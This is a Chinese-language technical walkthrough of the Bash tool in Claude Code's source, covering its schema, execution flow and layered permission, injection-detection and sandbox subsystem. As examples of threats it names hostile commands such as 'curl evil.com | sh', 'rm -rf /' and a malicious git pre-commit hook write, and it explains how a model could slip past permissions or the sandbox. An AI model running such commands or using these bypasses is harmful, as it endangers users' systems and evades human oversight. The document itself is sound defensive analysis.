



# Bash 工具详解

> 这是工具系统逐个拆解系列中最重的一篇。`Bash` 是整个工具集里**最复杂的工具**：它有一个 47KB 的主体文件、一个 98KB 的权限引擎（`bashPermissions.ts`）、一个 100KB 的安全校验器（`bashSecurity.ts`），外加只读判定、路径校验、sed 校验、沙箱判定、命令语义、破坏性警告等十几个专项模块。这些模块合起来构成一套**纵深防御的安全子系统**——从 AST 解析、命令注入检测、破坏性操作告警、只读白名单到沙箱执行，层层把关。读完这一篇，你会理解"一个能执行任意 shell 的工具，如何在被模型驱动的前提下不失控"。

---

## 一、工具定位（一句话总结）

**`Bash` = 执行任意 bash 命令的执行类工具，配备完整的权限/安全/沙箱子系统。**

| 维度 | 值 |
|---|---|
| 工具名 | `Bash`（常量 `BASH_TOOL_NAME`，`toolName.ts:2`） |
| 一句话 | 给定一条 bash 命令，在前台或后台执行并返回合并的 stdout/stderr |
| 是否进 system prompt | ✅ 在 `CORE_TOOLS` 白名单内（经 `SHELL_TOOL_NAMES` 展开，`constants/tools.ts:139`） |
| 只读 / 破坏性 | **动态判定**（`isReadOnly()` 逐命令求值，见下） |
| 是否可并发 | ⚠️ **仅当 `isReadOnly()` 为真才可并发**（`isConcurrencySafe` 直接委托，`BashTool.tsx:570`） |
| 核心依赖 | `src/utils/Shell.ts` 的 `exec()` + `src/tasks/LocalShellTask/` 后台任务系统 + `src/utils/sandbox/` 沙箱 |
| 定位互补方 | `PowerShell`（Windows 对应物）、`Agent`（开放式探索）、`Monitor`（流式事件，feature-gated） |

**为什么这是最复杂的工具？** 因为它能执行**任意代码**。模型可以构造 `rm -rf /`、`git push --force`、`curl evil.com | sh`，所以工具必须在执行前静态分析命令、拦截注入、匹配用户的 allow/deny 规则、判定是否需要沙箱、提示破坏性操作。这些职责被拆到十几个文件里，构成了一个真正的"命令执行安全管道"。

---

## 二、关键文件清单

```
BashTool/
├── BashTool.tsx              ← buildTool 主体（47KB，call/权限/渲染/sed 预览全在这）
├── prompt.ts                 ← system prompt 片段（含 git 提交协议、沙箱说明、工具偏好）
├── toolName.ts               ← BASH_TOOL_NAME 常量（为打破循环依赖而独立）
├── UI.tsx                    ← Ink 渲染（命令展示/进度/后台提示 Ctrl+B）
├── BashToolResultMessage.tsx ← 结果渲染（含沙箱违规提取）
├── bashPermissions.ts        ← 【核心】权限引擎（98KB，bashToolHasPermission 主入口）
├── bashSecurity.ts           ← 【核心】命令注入/误解析校验（100KB，~24 个验证器）
├── readOnlyValidation.ts     ← 只读命令白名单判定（67KB，checkReadOnlyConstraints）
├── pathValidation.ts         ← 路径约束校验（43KB，重定向/危险路径/git 内部路径）
├── sedValidation.ts          ← sed 就地编辑约束（21KB，checkSedConstraints）
├── sedEditParser.ts          ← sed 编辑命令解析器（支持"预览即写入"）
├── shouldUseSandbox.ts       ← 沙箱判定（含用户排除命令匹配）
├── commandSemantics.ts       ← 退出码语义解释（grep/find/diff/test 的非错误码）
├── destructiveCommandWarning.ts ← 破坏性命令正则告警（git reset --hard / rm -rf 等）
├── modeValidation.ts         ← 权限模式校验（acceptEdits 模式下放行 mkdir/rm/sed 等）
├── bashCommandHelpers.ts     ← 管道/复合命令分段权限检查
├── commentLabel.ts           ← 全屏模式下 `# 注释` 提取
├── utils.ts                  ← 图像/截断/cwd 重置等杂项
├── __tests__/                ← 5 个专项测试（转义/语义/复合命令/破坏性/网络重定向）
└── src/                      ← 内部子模块（bootstrap/state、hooks/useCanUseTool、services/analytics、utils/Shell.ts 等）
```

| 文件 | 角色 | 必看行号 |
|---|---|---|
| `BashTool.tsx` | 主体：schema + call() + 字段填充 + runShellCommand 生成器 | `buildTool:558`、`call:755`、`runShellCommand:982`、`isReadOnly:573`、`checkPermissions:666` |
| `bashPermissions.ts` | 权限引擎主入口 | `bashToolHasPermission:1641`、`commandHasAnyCd:2582`、`MAX_SUBCOMMANDS_FOR_SECURITY_CHECK:100` |
| `bashSecurity.ts` | 命令注入/误解析闸门 | `bashCommandIsSafe_DEPRECATED:2281`、`bashCommandIsSafeAsync_DEPRECATED:2450`、`COMMAND_SUBSTITUTION_PATTERNS:16` |
| `readOnlyValidation.ts` | 只读白名单判定 | `checkReadOnlyConstraints:1873` |
| `shouldUseSandbox.ts` | 沙箱判定 | `shouldUseSandbox:129`、`containsExcludedCommand:21` |
| `commandSemantics.ts` | 退出码语义 | `interpretCommandResult:124`、`COMMAND_SEMANTICS:31` |
| `destructiveCommandWarning.ts` | 破坏性正则告警 | `DESTRUCTIVE_PATTERNS:11`、`getDestructiveCommandWarning:94` |
| `prompt.ts` | system prompt 构造 | `getSimplePrompt:274`、`getCommitAndPRInstructions:42`、`getSimpleSandboxSection:171` |

> **结构特点**：BashTool 是"多文件主体"型——主体只负责编排（执行、渲染、sed 预览），而**安全判定全部外置**到独立模块。这是因为它的校验逻辑（~25 万字符）远超单文件可维护规模，且每条校验规则都有自己的测试用例。

---

## 三、Tool 接口字段实现（`buildTool` 逐字段）

BashTool 几乎实现了 `Tool` 接口的**全部字段**，其中 `isReadOnly`、`preparePermissionMatcher`、`isSearchOrReadCommand` 都做了非平凡的处理。

### 标识字段

```ts
name: BASH_TOOL_NAME,            // "Bash"
searchHint: 'execute shell commands',  // TF-IDF 索引关键词
maxResultSizeChars: 30_000,      // 30K 字符——结果持久化阈值
strict: true,                    // 严格 schema（拒绝未知字段）
```

### 输入 schema（`BashTool.tsx:301-349`）

```ts
{
  command: string,                    // 必填，要执行的命令
  timeout?: number,                   // 可选，最大 getMaxTimeoutMs()
  description?: string,               // 命令的人类可读描述（用于 UI 与 prompt）
  run_in_background?: boolean,        // 后台运行
  dangerouslyDisableSandbox?: boolean, // 危险地关闭沙箱
  _simulatedSedEdit?: {filePath, newContent},  // 内部字段，从模型面 schema 中省略
}
```

> **关键安全设计**：`_simulatedSedEdit` 是内部字段，由 sed 编辑预览权限对话框设置——**永远不暴露给模型**（`inputSchema` 用 `omit` 剥离，`BashTool.tsx:342-348`）。注释（`:338-341`）明确：若暴露，模型可绕过权限检查和沙箱，把任意文件写入塞进一条无害命令。

### 输出 schema（`BashTool.tsx:396-431`）

```ts
{
  stdout, stderr, interrupted,
  isImage?,                        // stdout 是否是 base64 图像
  backgroundTaskId?,               // 后台任务 ID
  backgroundedByUser?,             // 用户 Ctrl+B 手动后台化
  assistantAutoBackgrounded?,      // 助手模式自动后台化
  returnCodeInterpretation?,       // 退出码语义解释（如 "No matches found"）
  noOutputExpected?,               // 静默命令（mv/cp/rm）成功无输出
  persistedOutputPath?,            // 大输出落盘路径
  persistedOutputSize?,            // 大输出字节数
}
```

### 行为字段（重点）

| 字段 | 实现 | 说明 |
|---|---|---|
| `call()` | `:755` | 核心（见第四节） |
| `validateInput()` | `:653` | 拦截 `sleep N`（N≥2）反模式，引导改用 Monitor/run_in_background |
| `checkPermissions()` | `:666` | 委托 `bashToolHasPermission`（第五节） |
| `isReadOnly()` | `:573` | 逐命令求值：`checkReadOnlyConstraints(input, commandHasAnyCd(input.command))` |
| `isConcurrencySafe()` | `:570` | **=`isReadOnly`**——只读才并发 |
| `isSearchOrReadCommand()` | `:603` | 用 `isSearchOrReadBashCommand` 判定 grep/find/cat 等可折叠命令 |
| `preparePermissionMatcher()` | `:581` | 用 AST 解析复合命令，让 hook 的通配规则匹配每个子命令 |
| `toAutoClassifierInput()` | `:578` | 返回 `command` 文本 |
| `mapToolResultToToolResultBlockParam()` | `:679` | 把结构化输出翻译成模型可读文本（含 `<persisted-output>` 包装、后台任务提示） |

### `isSearchOrReadBashCommand`（`:165-234`）

定义三组命令集合：`BASH_SEARCH_COMMANDS`（find/grep/rg）、`BASH_READ_COMMANDS`（cat/head/jq/awk）、`BASH_LIST_COMMANDS`（ls/tree/du），加上 `BASH_SEMANTIC_NEUTRAL_COMMANDS`（echo/printf/true）。对**复合命令的所有子段**逐一检查：只有全部都是搜索/读取/列表命令才判定为可折叠。这让 `cat a | jq` 可折叠，而 `cat a && rm b` 不可折叠——纯为 UI 折叠显示服务。

### `renderToolUseMessage`（`UI.tsx:65`）

特殊处理 sed 就地编辑：`parseSedEditCommand` 命中时，渲染成**文件编辑样式**（只显示文件路径），让用户像看 FileEdit 一样看 sed 编辑。

---

## 四、核心执行流程：`call()` + `runShellCommand`

`call()` 处于 7 步流水线的**第 6 步**。但 BashTool 的 `call()`（`:755-975`）本身是一个**编排器**，真正执行逻辑在内部的 `runShellCommand` 异步生成器（`:982-1333`）里。



### `runShellCommand` 生成器的关键设计（`:982-1333`）

这是一个 **async generator**，会 `yield` 进度更新，最终 `return` `ExecResult`。它的核心是**三种后台化触发**：

1. **超时自动后台化**（`:1136`）：`shellCommand.onTimeout` 注册回调，命令超时时不杀进程，而是 `startBackgrounding` 转后台。
2. **助手模式自动后台化**（`:1145-1158`）：feature-gated by `KAIROS`。主代理中命令运行超过 `ASSISTANT_BLOCKING_BUDGET_MS`（15 秒）自动转后台，让代理继续协调。
3. **用户手动后台化 Ctrl+B**（`:1299-1310`）：进度循环里 `registerForeground` 注册前台任务，用户按 Ctrl+B 时 `BackgroundHint` 组件调用 `backgroundAll` 转后台。

### call() 的关键点

1. **sed 预览直写**（`:764`）：若 `input._simulatedSedEdit` 存在（来自预览权限对话框），直接 `applySedEdit` 写文件而**不执行 sed**——确保用户预览的内容与写入的内容完全一致。
2. **合并 fd**（`:830-831`）：stderr 交错在 stdout 中（`exec` 用合并 fd），`result.stdout` 包含两者。
3. **退出码语义**（`:834`）：`interpretCommandResult` 用 `commandSemantics.ts` 解释——`grep` 退出 1（无匹配）不算错误，`find` 退出 1（部分目录不可访问）也不算错误。
4. **大输出落盘**（`:882-901`）：输出超过阈值时复制到 `tool-results/` 目录，模型可通过 FileRead 读取；超过 64MB 截断。
5. **Claude Code hints 剥离**（`:931`）：`<claude-code-hint />` 标签从输出中剥离，记录后不让模型看到——一个"零令牌旁通道"。
6. **图像输出处理**（`:937-954`）：检测 `data:image/...;base64,` 前缀，压缩尺寸后作为图像块发送。

### 为什么 call() 返回 `{data}` 而非 yield 最终结果？

与 GlobTool 相同（原子操作），但 BashTool **会 yield 进度**（命令运行中每秒一次），最终结果用 `return {data}`。这种"yield 进度 + return 结果"的混合模式是流式工具的典型形态。

---

## 五、权限与安全（本工具的核心）

这是 BashTool **最值得深读**的部分。权限判定不是一个函数，而是一条**多层管道**，从命令字符串一路校验到执行环境。

### 5.1 总入口：`bashToolHasPermission`（`bashPermissions.ts:1641`）

这是 `checkPermissions` 的委托目标，是一条**纵深防御管道**：



**关键设计点**：

- **AST 优先**（`:1648-1670`）：tree-sitter WASM 解析成功时，用 AST 派生的 `SimpleCommand[]` 贯穿所有校验；解析过复杂（命令替换、控制流）或不可用时回退旧正则路径。`TREE_SITTER_BASH_SHADOW` feature 做 shadow 测试——记录判定但不启用。
- **子命令上限**（`:100`）：`MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50`——复合命令子段超过 50 个时回退到 `ask`（安全默认），防止 ReDoS/指数级解析把 REPL 冻结在 100% CPU（CC-643）。
- **DCE 临界注释**（`:81-86`）：Bun 的 `feature()` 求值器有复杂度预算，`import { X as Y }` 别名会占预算——一旦超限，Bun 静默把 `feature('BASH_CLASSIFIER')` 求值为 `false`，丢弃所有 pendingClassifierCheck。所以用顶层 `const` 重绑定而非别名。

### 5.2 注入与误解析闸门：`bashSecurity.ts`

`bashCommandIsSafe_DEPRECATED`（`:2281`）是命令注入检测的核心。它运行一组**验证器**，任何一条命中就 `ask`：

- **控制字符**（`:2287`）：null 字节等不可打印字符会被 bash 静默丢弃，但会混淆验证器——首道闸门。
- **shell-quote 单引号 bug**（`:2301`）：`'\'` 模式利用 shell-quote 对单引号内反斜杠的错误处理绕过校验。
- **命令替换**（`COMMAND_SUBSTITUTION_PATTERNS:16`）：`$()`、`${}`、`$[]`、`<()`（进程替换）、`=cmd`（Zsh equals 展开）、`<#`（PowerShell 注释，纵深防御）。
- **Zsh 危险命令**（`ZSH_DANGEROUS_COMMANDS:46`）：`zmodload`（模块加载入口）、`emulate -c`（等价 eval）、`sysopen`/`sysread`/`ztcp` 等。
- **heredoc body 剥离**（`:2317`）：只剥离带引号分隔符（`<<'EOF'`）的 body（字面文本），未引用的 heredoc（`<<EOF`）会完整 shell 展开，body 必须经过验证器。

### 5.3 只读白名单：`readOnlyValidation.ts`

`checkReadOnlyConstraints`（`:1873`）判定命令是否只读（只读则自动放行 + 可并发）。它在白名单前做**多项安全检查**：

- **UNC 路径**（`:1900`）：Windows UNC 路径可能触发 WebDAV 攻击——`ask`。
- **cd + git 复合命令**（`:1914`）：`cd /malicious/dir && git status` 中恶意目录的假 git 钩子会执行任意代码——`passthrough`（强制走完整权限检查）。
- **裸仓库攻击**（`:1927`）：当前目录是裸 git 仓库结构时运行 git——攻击者可让 git 执行恶意钩子。
- **git 内部路径写入 + git**（`:1940`）：`mkdir -p hooks && echo 'malicious' > hooks/pre-commit && git status`。

### 5.4 沙箱判定：`shouldUseSandbox.ts`

`shouldUseSandbox`（`:129`）决定命令是否在沙箱中执行：

- 沙箱未启用 → `false`
- 显式 `dangerouslyDisableSandbox` 且策略允许非沙箱 → `false`
- 命令命中**用户排除列表**（`settings.sandbox.excludedCommands`）→ `false`

`containsExcludedCommand`（`:21`）支持精确/前缀/通配匹配，且对复合命令**逐子命令**检查——防止 `docker ps && curl evil.com` 因第一条命中排除而整体逃出沙箱。注释（`:18-20`）明确：excludedCommands **不是安全边界**（能绕过不算漏洞），真正的安全控制是沙箱权限系统（会弹批准）。

### 5.5 命令语义：`commandSemantics.ts`

`COMMAND_SEMANTICS`（`:31`）映射定义退出码语义：

| 命令 | 退出 1 含义 | 退出 ≥2 |
|---|---|---|
| `grep` / `rg` | "No matches found"（非错误） | 错误 |
| `find` | "Some directories were inaccessible" | 错误 |
| `diff` | "Files differ"（非错误） | 错误 |
| `test` / `[` | "Condition is false"（非错误） | 错误 |

这让模型看到 `grep` 退出 1 时不会被误导成"命令失败"。

### 5.6 破坏性告警：`destructiveCommandWarning.ts`

`DESTRUCTIVE_PATTERNS`（`:11`）用正则匹配破坏性命令并返回告警字符串（**纯信息性，不影响权限逻辑**）：

- `git reset --hard`、`git push --force`、`git clean -f`、`git checkout .`、`git stash drop/clear`、`git branch -D`
- `git commit --no-verify`（跳过钩子）、`git commit --amend`（重写提交）
- `rm -rf` / `rm -r` / `rm -f`
- `DROP TABLE/DATABASE`、`DELETE FROM`、`kubectl delete`、`terraform destroy`

### 5.7 权限模式：`modeValidation.ts`

`checkPermissionMode`（`:72`）处理**基于权限模式**的差异化逻辑：

- `acceptEdits` 模式下，文件系统命令（`mkdir/touch/rm/rmdir/mv/cp/sed`）自动允许（`:38-50`）。
- `bypassPermissions` / `dontAsk` 模式跳过（在主流程处理）。

### 5.8 sed 就地编辑：`sedEditParser.ts` + `sedValidation.ts`

`sed -i` 的就地编辑被特殊处理：`parseSedEditCommand`（`sedEditParser.ts:49`）解析出文件路径、pattern、replacement，支持**预览即写入**——权限对话框展示替换结果，用户批准后通过 `_simulatedSedEdit` 字段直接写文件（而非执行 sed），保证预览与写入一致。`checkSedConstraints`（`sedValidation.ts:647`）对未放行的危险 sed 操作要求批准。

### 5.9 复合命令分段：`bashCommandHelpers.ts`

`checkCommandOperatorPermissions`（`:180`）处理管道命令：把 `A | B | C` 拆成段，**每段独立**走完整权限系统，任一段 deny 则整体 deny，全部 allow 才整体 allow。还检测跨管道段的 cd+git 组合（裸仓库 fsmonitor 绕过防护）。

---

## 六、与其他系统/工具的关系



- **与 `PowerShell` 的关系**：Windows 对应物。PowerShellTool **复用**了 BashTool 的 `shouldUseSandbox`、`utils`（图像/截断/cwd 重置）、`BackgroundHint` 组件——两者共享执行基础设施，但各自有独立的安全/权限引擎（针对不同 shell 语法）。
- **与 `Monitor` 的关系**：`MONITOR_TOOL` feature-gated。启用后，`sleep N`（N≥2）被 `validateInput` 拦截，引导改用 Monitor 流式事件或 run_in_background。
- **与 `REPL` 的关系**：REPLTool 在 VM 上下文中把 Bash（及其他原始工具）作为函数 API 暴露——Bash 是 REPL 的"原始工具"之一（`primitiveTools.ts`）。
- **与权限系统**：通过 `bashToolHasPermission` 接入完整权限管道（allow/deny/ask 规则、模式、沙箱、注入检测）。
- **与后台任务系统**：`LocalShellTask` 管理后台 shell 任务的生命周期（注册、转后台、终止、输出回收）。

---

## 七、亮点与设计取舍

1. **纵深防御管道**：权限判定不是单一检查，而是 9 层管道（AST → 语义 → 模式 → deny 规则 → 注入 → 只读 → 路径 → sed → ask）。任何一层失败都 fail-safe 到 `ask`。
2. **AST 优先 + 正则回退**：tree-sitter 解析成功时用 AST（精确），不可用时回退正则（保守）。`TREE_SITTER_BASH_SHADOW` 做 shadow 测试验证新解析器与旧路径一致后再切换。
3. **`_simulatedSedEdit` 内部字段隔离**：从模型面 schema 中 `omit`，防止模型把任意文件写入塞进无害命令绕过权限。一个容易被忽略但关键的安全设计。
4. **三种后台化触发**：超时、助手模式自动（15 秒预算）、用户手动（Ctrl+B）。长任务不阻塞对话，符合"对话式编程"体验。
5. **退出码语义解释**：`grep` 退出 1 不算错误——避免模型误判"搜索失败"而重试或放弃。一个小但影响模型决策质量的设计。
6. **破坏性告警分层**：`destructiveCommandWarning` 纯信息性（不影响逻辑），`readOnlyValidation`/`pathValidation` 才是硬约束。告警与拦截职责分离。
7. **git 攻击专项防护**：cd+git 复合、裸仓库、git 内部路径写入——三类针对 git 钩子的沙箱逃逸攻击都有专项检查。这是安全工程深度的体现。
8. **ReDoS 防护**：`MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50` 上限防止复合命令子段指数增长冻住 REPL（CC-643）。
9. **DCE 临界注释**：Bun `feature()` 复杂度预算导致 `import` 别名会静默破坏 feature 求值——用顶层 `const` 重绑定规避。这是 Bun 编译器的底层约束。
10. **零令牌旁通道**：`<claude-code-hint />` 标签从输出剥离后记录，模型永远看不到——插件推荐等机制通过这个旁通道传递信息，不消耗 context token。

---

## 八、源码导航（书签速查）

| 想看什么 | 去哪里 |
|---|---|
| 工具名常量 | `BashTool/toolName.ts:2` |
| `buildTool` 字段填充 | `BashTool/BashTool.tsx:558-980` |
| 输入/输出 schema | `BashTool.tsx:301-431` |
| `call()` 编排器 | `BashTool.tsx:755-975` |
| `runShellCommand` 生成器 | `BashTool.tsx:982-1333` |
| sed 预览直写 | `BashTool.tsx:501-556`（applySedEdit） |
| 权限引擎主入口 | `bashPermissions.ts:1641`（bashToolHasPermission） |
| 命令注入检测 | `bashSecurity.ts:2281`（bashCommandIsSafe_DEPRECATED） |
| 只读白名单 | `readOnlyValidation.ts:1873` |
| 路径约束 | `pathValidation.ts:1009` |
| sed 约束 | `sedValidation.ts:647` |
| 沙箱判定 | `shouldUseSandbox.ts:129` |
| 退出码语义 | `commandSemantics.ts:31`（COMMAND_SEMANTICS） |
| 破坏性告警正则 | `destructiveCommandWarning.ts:11` |
| 权限模式处理 | `modeValidation.ts:72` |
| 管道分段权限 | `bashCommandHelpers.ts:180` |
| system prompt 构造 | `prompt.ts:274`（getSimplePrompt） |
| git 提交/PR 协议 | `prompt.ts:42`（getCommitAndPRInstructions） |
| 沙箱说明注入 | `prompt.ts:171`（getSimpleSandboxSection） |
| 后台提示组件 | `UI.tsx:30`（BackgroundHint） |

---

## 九、学习建议与验证清单

**怎么读这章**：先读"一、工具定位"建立心智（这是执行任意代码的工具），再跳到"四、call()"看执行编排，然后重点啃"五、权限与安全"的 5.1-5.4——这是 BashTool 的灵魂。最后对照"七、亮点"理解每个设计取舍的动机。

**这是进阶篇，建议先读 GlobTool 再读本篇**：GlobTool 教你"标准工具长什么样"，BashTool 教你"危险工具如何被驯服"。

**验证清单（读完自测）**：
- [ ] 能说出 `bashToolHasPermission` 的 9 层管道顺序
- [ ] 能解释为什么 `isConcurrencySafe` 直接等于 `isReadOnly`（只读才无副作用可并发）
- [ ] 能指出 `_simulatedSedEdit` 为何从模型面 schema 中省略（防绕过权限）
- [ ] 能说出三种后台化触发（超时、助手模式 15 秒、用户 Ctrl+B）
- [ ] 能解释 `grep` 退出 1 为何不算错误（commandSemantics）
- [ ] 能找到子命令上限（50）及其防的攻击（ReDoS / CC-643）
- [ ] 能说出 cd+git 复合命令为何被特殊拦截（假 git 钩子执行任意代码）
- [ ] 能区分破坏性告警（destructiveCommandWarning，纯信息）与硬约束（readOnlyValidation/pathValidation）
- [ ] 能解释 AST 优先 + 正则回退的双路径设计
- [ ] 能指出 TREE_SITTER_BASH_SHADOW 的作用（shadow 测试，记录但不启用）

**配合动作**：
1. 让 Claude 执行 `grep nonexistent file`（退出 1），观察 `returnCodeInterpretation: "No matches found"` 而非报错
2. 构造 `git reset --hard` 命令，观察权限对话框出现破坏性告警
3. 在 `bashToolHasPermission` 入口加日志，观察一条复合命令经过哪些校验层
4. 启用沙箱（`/sandbox`），执行访问项目外路径的命令，观察沙箱违规提示
5. 构造 `cd /tmp && git status`，验证 cd+git 复合命令被拦截而非自动放行
